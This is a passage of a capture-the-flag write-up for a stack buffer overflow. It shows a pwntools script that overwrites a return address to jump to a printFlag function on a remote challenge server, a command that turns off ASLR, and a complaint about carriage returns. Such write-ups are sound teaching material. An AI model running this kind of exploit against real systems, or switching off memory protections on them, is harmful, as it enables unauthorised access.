 ![segfault](never_segfault.png)

We can call `cyclic_find(0x61716161)` in pwntools to calculate the offset from the buffer pointer in which the return address is stored. For this binary it happens to be 62.

Now what do we write to the stored return address? A pointer to the `printFlag` function of course! To find this, we first need to turn of ASLR on our OS (and remember to turn it back on when we're done).

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Now, we can look at the address of the function in gdb. Since ASLR is off, this will always be the same.

```
(gdb) info addr printFlag
Symbol "printFlag" is a function at address 0x565562ab.
```

Now we know what to write, where to write it, and how to write it. Perfect! It's all just a matter of putting this together now. Once again, we can use pwntools to make things simple.

```python
from pwn import *

PORT_NUM = 5785

io = remote("213.133.103.186", PORT_NUM)

offset = cyclic_find(0x61716161)
payload = b'A'*offset
payload += p32(0x565562ab)

print(io.read())
io.sendline(payload)

print(io.read())
print(io.read())

```

## A small rant amount carriage returns

I spent a lot of time on this problem. The solve I had seemed to work locally, but not remotely. For a while I thought it was something weird with how the binary was on the server, and that the calculated return address only
work locally. I tried a lot of different things.

The problem, however, was a lot simpler. I'm not sure of the exact details, but it seems to be related to how the pwntools handles carriage returns. The remote server sent carriage returns (`\r\n`) at the end of every line,
which is the standard for Windows, but not Linux. Somehow, that messed up pwntools, and despite receiving the flag, it didn't actually display it. Calling `print(io.read())` seemed to fix it though, but it was a weird problem.

Carriage returns suck. That's the takeaway from this challenge. I spent more time getting the solve to work remotely than figuring it out in the first place.


